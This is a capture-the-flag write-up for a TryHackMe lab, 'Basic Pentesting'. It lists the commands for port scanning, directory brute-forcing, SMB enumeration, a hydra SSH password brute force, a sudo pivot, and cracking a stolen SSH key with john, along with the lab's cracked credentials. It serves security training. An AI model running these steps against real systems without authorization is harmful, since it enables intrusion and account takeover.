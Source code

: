 # TryHackMe: Basic Pentesting Writeup

**Room Link:** [Basic Pentesting](https://tryhackme.com/room/basicpentestingjt)  
**Difficulty:** Easy  
**Tags:** `#WebAppSecurity` `#PrivilegeEscalation` `#CTF`

## 1. Reconnaissance

### Nmap Scan
```bash
nmap -sV -A -T4 <TARGET_IP>
```

**Findings:**
- **Port 22 (SSH)** - OpenSSH 7.2p2 Ubuntu 4ubuntu2.4
- **Port 80 (HTTP)** - Apache httpd 2.4.18 (Ubuntu)
- **Port 445 (SMB)** - Samba smbd 4.3.11-Ubuntu

### Web Enumeration
```bash
gobuster dir -u http://<TARGET_IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

**Discovered:**
- `/development` - Contains two files:
  - `dev.txt` (hinted at weak credentials for user J and K)
  - `notes.txt`

## 2. Exploitation

### SMB Enumeration
```bash
smbclient -L //<TARGET_IP> -N
```
Found an anonymous share, but no useful data.

### Brute-Forcing SSH
```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://<TARGET_IP>
```

**Credentials Found:**
- **Username:** jan
- **Password:** armando

**SSH Access:**
```bash
ssh jan@<TARGET_IP>
```

## 3. Privilege Escalation

### Checking Sudo Permissions
```bash
sudo -l
```
Discovered jan could run `/bin/bash` as user kay:
```bash
sudo -u kay /bin/bash
```

### Accessing Kay's SSH Key
Found private key at `/home/kay/.ssh/id_rsa`

**Cracking Process:**
```bash
python /usr/share/john/ssh2john.py id_rsa > kay_hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt kay_hash.txt
```
**Cracked Passphrase:** `beeswax`

**Logged in as kay:**
```bash
ssh -i id_rsa kay@<TARGET_IP>
```

### Root Flag
Found in `/root/root.txt` after further enumeration.

## 4. Lessons Learned
- 🚨 **Weak Passwords:** Default credentials (jan:armando) allowed initial access
- ⚠️ **Misconfigured Sudo:** Improper sudo permissions enabled privilege escalation
- 🔑 **Exposed SSH Keys:** Private keys without strong passphrases are dangerous

---

🔗 **More Writeups:** [My GitHub Security Writeups](https://github.com/Mohammed-Abdelaziem/Writeups)
